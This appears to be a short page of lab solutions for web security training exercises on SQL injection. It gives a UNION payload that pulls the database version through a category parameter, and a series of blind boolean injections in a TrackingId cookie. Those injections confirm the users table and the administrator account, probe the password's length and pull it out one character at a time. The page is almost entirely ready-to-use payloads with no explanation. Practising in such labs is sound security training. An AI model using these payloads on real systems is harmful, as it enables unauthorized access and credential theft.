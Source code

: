 
#### 13. SQL injection UNION attack, retrieving multiple values in a single column
```
category=Pets'union select NULL,version()-- -
```

#### Blind SQL injection with conditional responses
```
TrackingId=xyz' AND '1'='1  
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§ 
``` 
